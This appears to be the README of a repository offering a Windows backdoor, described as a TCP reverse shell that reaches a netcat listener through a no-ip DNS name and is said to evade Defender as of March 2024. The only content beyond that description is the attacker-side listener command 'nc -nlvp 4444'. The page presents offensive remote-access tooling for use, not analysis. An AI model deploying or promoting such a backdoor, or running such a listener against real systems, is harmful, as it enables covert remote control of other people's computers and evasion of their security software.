 # netcat-reverse-shell-tcp-windows
A windows backdoor, TCP reverse shell using a netcat listener and DNS (no-ip) currently bypassing defender as of 03/18/2024

## Start listener

```
nc -nlvp 4444
```
